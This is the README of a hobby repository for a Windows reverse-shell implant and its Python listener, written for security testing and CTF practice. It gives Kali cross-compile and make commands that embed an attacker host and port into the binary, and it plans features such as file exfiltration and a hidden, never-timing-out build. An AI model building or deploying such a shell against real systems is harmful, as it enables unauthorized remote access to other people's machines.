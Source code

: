 Original repo: https://github.com/thosearetheguise/rev


This code was created by following on from https://scriptdotsh.com/index.php/2018/09/04/malware-on-steroids-part-1-simple-cmd-reverse-shell/. I've taken some liberties and added some stuff like:

Really crappy randomness for the beacon and a timeout after X beacons to stop the thing running if something goes wrong. Also, I haven't tested that because I wasn't patient enough. 

To compile on Kali



```bash
apt install mingw-w64-i686-dev
apt install mingw-w64
i686-w64-mingw32-g++ rev.c -o build/rev.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -DIP=\"10.10.10.10\" -DPORT=8080
```
I've moved the IP address out of the source file into the -D switch. 

Or use the makefile (you still need to install the require stuff from above.)

```bash
make ATTK_HOST=10.10.10.10 ATTK_PORT=8080
```

To compile in windows install visual studio community and hunt down cl.exe, and the .bat files to set up the env vars (google around, I can't be bothered...)

For the python reciever (which as I learn stuff may become more than a random curiosity):

```bash
 apt-get install python3-venv
 python3 -m venv env
 source env/bin/activate
 ```

 Because I like virtual envs. If there's a requirements.txt get that running with pip -r requirements.txt.

 Bear in mind that at the moment recieve.py literally does nothing except what netcat would do... I just wanted to see if I could get something to work.

 TODO
  - [ ] Find a way to make the reciever handle multiple reverse shells.
  - [ ] Update rev.exe to support various options, with a reverse shell justing being one. This includes system enumeration, moving files to the box, sending files back, command exec, etc...
  - [ ] Update the functionality in rev.c so it can be compiled to time out and display a cmd.exe window (while debugging/building so it's easy to kill), and hide/never time out when using in a test or CTF.
